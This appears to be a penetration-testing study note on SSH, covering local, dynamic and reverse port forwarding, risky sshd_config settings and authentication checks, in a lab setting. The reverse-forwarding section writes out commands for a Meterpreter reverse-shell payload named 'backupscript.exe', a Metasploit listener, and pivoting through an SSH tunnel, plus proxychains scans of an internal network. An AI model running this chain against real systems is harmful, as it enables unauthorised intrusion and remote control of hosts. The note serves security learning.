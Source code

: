 Port: 22
Config file: `/etc/ssh/sshd_config`

# Port Forwarding
## Local Port Forwarding
The `-L` flag tells the SSH client to request the SSH server to forward all the data we send via the port `<INTERNAL-PORT>` to `localhost:<REMOTE-SYSTEM-PORT>`
```shell-session
$ ssh -L <INTERNAL-PORT>:localhost:<REMOTE-SYSTEM-PORT> <USER>@<IP>
$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```
## Dynamic Port Forwarding
If the remote system has additional NICs and connected to other networks, we can't perform scans directly as our system does not know that network path. We can start a #SOCKS listener on our local host and then configure SSH to forward that traffic via SSH to the network (for e.g. 172.16.5.0/23) after connecting to the target host
1. Enable SOCKS listener in `/etc/proxychains.conf`:
```shell-session
$ tail -2 /etc/proxychains.conf
# defaults set to "tor"
socks4 	127.0.0.1 <LOCAL-PORT>
```
2. Forward all data from the `LOCAL-PORT` via SSH client to remote system:
```shell-session
$ ssh -D <LOCAL-PORT> <USER>@<IP>
```
3. Run commands through remote system via attacking host through #proxychains to access internal networks remotely:
```shell-session
$ proxychains <COMMAND>
$ proxychains nmap -v -sn 172.16.5.1-200
```
## Reverse Port Forwarding
The `-R` flag asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.
To get a reverse shell from, let's say a remote Windows system on a different network from pivot Ubuntu system, we could create a Meterpreter HTTPS payload using `msfvenom`, but the `LHOST` would be Ubuntu server's host IP address (`172.16.5.129`). We will use port 8080 on Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.
1. Create HTTPS Payload
```shell-session
1zverg@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
2. Configure & Start the multi/handler
```shell-session
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```
3. [[File Transfer|Transfer]] payload from attacking host to remote Ubuntu to remoter Windows
4. SSH Remote Port Forward From `Ubuntu:8080` to `MSF:8000`
```shell-session
1zverg@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
5. Execute the payload on remoter Windows host and wait for a connection in MSF.
>Our Meterpreter session should list the incoming connection being from a local host itself (`127.0.0.1`) since we are receiving the connection over the `local SSH socket`, which created an `outbound` connection to the Ubuntu server. Issuing the `netstat` command can show us that the incoming connection is from the SSH service.
### Useful Flags
- `-N`: Do not prompt the login shell.
# Dangerous Settings
| **Setting**                  | **Description**                             |
| ---------------------------- | ------------------------------------------- |
| `PasswordAuthentication yes` | Allows password-based authentication.       |
| `PermitEmptyPasswords yes`   | Allows the use of empty passwords.          |
| `PermitRootLogin yes`        | Allows to log in as the root user.          |
| `Protocol 1`                 | Uses an outdated version of encryption.     |
| `X11Forwarding yes`          | Allows X11 forwarding for GUI applications. |
| `AllowTcpForwarding yes`     | Allows forwarding of TCP ports.             |
| `PermitTunnel`               | Allows tunneling.                           |
| `DebianBanner yes`           | Displays a specific banner when logging in. |
# Tips
## Accepted Authentication
use `-v` to check:
```bash
ssh -v cry0l1t3@10.129.14.132

OpenSSH_8.2p1 Ubuntu-4ubuntu0.3, OpenSSL 1.1.1f  31 Mar 2020
debug1: Reading configuration data /etc/ssh/ssh_config 
...SNIP...
debug1: Authentications: publickey,password,keyboard-interactive
```
## Preferred Authentication
use `PreferredAuthentications=<help-above>` 
# Tools
- [[SSH-Audit]]
- [[MSFConsole#Modules#SSH User Enumeration|Metasploit - SSH User Enumeration]]